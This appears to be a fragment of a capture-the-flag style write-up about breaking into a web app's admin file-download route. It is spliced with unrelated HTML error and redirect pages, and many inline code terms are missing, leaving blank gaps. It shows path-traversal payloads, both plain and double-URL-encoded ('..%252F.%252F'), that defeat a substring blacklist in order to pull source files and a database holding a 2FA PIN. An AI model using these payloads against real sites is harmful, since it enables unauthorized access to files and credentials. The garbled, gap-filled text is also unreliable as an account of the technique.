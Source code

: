       </form>
    </div>
  </div>

</body>
</html><!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Error</title>
</head>
<body>
    <img src="" alt="some image of an alien shocked or smt">
    <p style="color: red;"> [ Invalid CSRF Token, if this persists please enable JavaScript. ] </p>
</body>
</html>
The server accepted the credentials but enforced a second factor through .

## Mapping the Admin Surface
Authenticated browsing of  and  showed a file manager listing – with a client-side call to . Initial attempts at straightforward directory traversal () were blocked, but the route returned stack-trace style errors hinting at templated paths within .

## Download Route Analysis
Grabbing the backend source via traversal confirmed the weak filter:
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=%2Fadmin%2Fdownload%2F..%2F.%2F..%2Fviews.py">/login?next=%2Fadmin%2Fdownload%2F..%2F.%2F..%2Fviews.py</a>. If not, click the link.
The  handler performs:

Because the blacklist checks for a literal substring, mixing encoded separators () or inserting  sidesteps the guard while  resolves the final path.

## Obtaining the 2FA PIN
1. Enumerated project structure with the same trick and pulled , which pointed to an SQLite database at .
   <!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=%2Fadmin%2Fdownload%2F..%252F.%252F..%252F.%252F..%252F.%252Fmodels.py">/login?next=%2Fadmin%2Fdownload%2F..%252F.%252F..%252F.%252F..%252F.%252Fmodels.py</a>. If not, click the link.
2. Downloaded the database using doubly encoded traversal:
   